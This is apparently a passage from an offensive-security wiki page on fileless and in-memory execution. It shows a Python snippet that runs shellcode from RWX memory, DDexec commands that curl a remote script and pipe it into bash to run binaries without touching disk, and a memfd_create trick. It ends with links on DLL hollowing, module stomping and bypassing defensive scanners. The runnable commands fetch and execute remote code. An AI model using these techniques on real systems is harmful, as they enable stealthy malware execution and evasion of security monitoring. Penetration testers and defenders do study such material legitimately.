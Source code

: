 ```python
sc_size = len(sc)

mem_size = page_size * (1 + sc_size / page_size)
cptr = mmap(0, int(mem_size), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0)

memmove(cptr, sc, sc_size)
sc = CFUNCTYPE(c_void_p, c_void_p)
call_sc = cast(cptr, sc)
call_sc(None)
```
{% endcode %}



### DDexec

- [https://github.com/arget13/DDexec](https://github.com/arget13/DDexec)

{% embed url="https://youtu.be/MaBurwnrI4s" %}

Run binaries from memory without touching the disk:

```
$1 base64 /bin/ls -w0 > ls.b64
$2 curl -sS 10.10.13.37/ls.b64 | bash <(curl -sSL https://github.com/arget13/DDexec/raw/main/ddexec.sh) /bin/NonExistentBinary -la
```

Another trick to do semi-fileless ELF execution with a pre-created process descriptor:

```
$ python3 -c 'import os;os.fork()or(os.setsid(),print(f"/proc/{os.getpid()}/fd/{os.memfd_create(str())}"),os.kill(os.getpid(),19))'
$ cat /usr/bin/date > /proc/1732982/fd/4
$ /proc/1732982/fd/4
```




## DLL Hollowing / Module Stomping

- [https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
- [https://github.com/TheWover/donut/blob/61af8ccee3c2cafa743b2628654d1a2dafc66f3a/loader/inmem_pe.c#L135](https://github.com/TheWover/donut/blob/61af8ccee3c2cafa743b2628654d1a2dafc66f3a/loader/inmem_pe.c)



### Variations of (Phantom) DLL Hollowing

- [https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)
- [https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-ii-insights-from-moneta](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-ii-insights-from-moneta)
- [https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)
- [https://github.com/forrest-orr/phantom-dll-hollower-poc](https://github.com/forrest-orr/phantom-dll-hollower-poc)
- [https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/](https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/)
- [https://blog.f-secure.com/hiding-malicious-code-with-module-stomping-part-2/](https://blog.f-secure.com/hiding-malicious-code-with-module-stomping-part-2/)
- [https://github.com/WithSecureLabs/ModuleStomping](https://github.com/WithSecureLabs/ModuleStomping)